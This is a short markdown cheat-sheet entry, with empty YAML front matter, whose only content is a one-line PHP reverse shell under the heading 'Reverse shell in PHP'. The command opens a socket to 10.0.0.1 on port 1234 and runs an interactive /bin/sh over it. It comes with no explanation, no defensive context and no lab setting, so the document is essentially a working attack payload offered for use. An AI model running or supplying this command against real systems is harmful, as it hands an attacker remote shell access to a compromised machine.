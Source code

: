 ```yaml
---
category: Uncategorized
tags: []
---
```

### Reverse shell in PHP
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`